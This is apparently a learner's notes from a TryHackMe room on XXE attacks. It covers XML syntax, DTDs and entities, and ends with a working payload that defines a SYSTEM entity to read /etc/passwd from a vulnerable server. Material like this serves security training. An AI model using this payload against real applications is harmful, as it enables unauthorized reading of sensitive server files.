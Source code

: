 # TryHackMe: Complete Beginner (Supplements)

author:: Nathan Acks  
date:: 2021-12-09

## XXE

### Deploy the VM

I think I’ve basically done a different version of this room…

Anyways, two types of XML External Entity (XXE) attacks:

* IN-BAND attacks are where the attacker receives an immediate response.
* OUT-OF-BAND (“blind”) attacks are when there is no immediate response and instead the attacker must receive the data indirectly (such as through a request to a second server under the attacker’s control).

### eXtensible Markup Language

Some things to remember about XML documents:

* Start with the standard prolog: `<?xml version="1.0" encoding="UTF-8"?>`. This is not *technically* compulsory, but some parsers will barf if it’s missing.
* Every XML document has one and *only* one root element.
* XML is case sensitive.

### DTD

The Document Type Definition defines/validates an XML document. For example, the DTD defined as

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to,from,heading,body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

validate the XML document

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note SYSTEM "note.dtd">  
<note>  
	<to>falcon</to>  
	<from>feast</from>  
	<heading>hacking</heading>  
	<body>XXE attack</body>  
</note>
```

The root node is defined immediately after the DOCTYPE declaration, with each ELEMENT declaration taking the form `element_name (contained_data)`. `#PCDATA` stands for “printable character data.

The DTD can also define multiple ENTITY types — `&amp;` and similar.

```xml
<!DOCTYPE userInfo [
	<!ENTITY name "feast">
]>
<userInfo>
	<firstName>falcon</firstName>
	<lastName>&name;</lastName>
</userInfo>
```

Conveniently, DTD can be defined *in line*, and not just by included files.

These last two features are what we will leverage to attack applications that accept XML inputs.

### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
```

The SYSTEM directive allows us to include other files… Possibly quite sensitive ones, depending on the permissions of our webserver and how good the application’s input sanitization is.
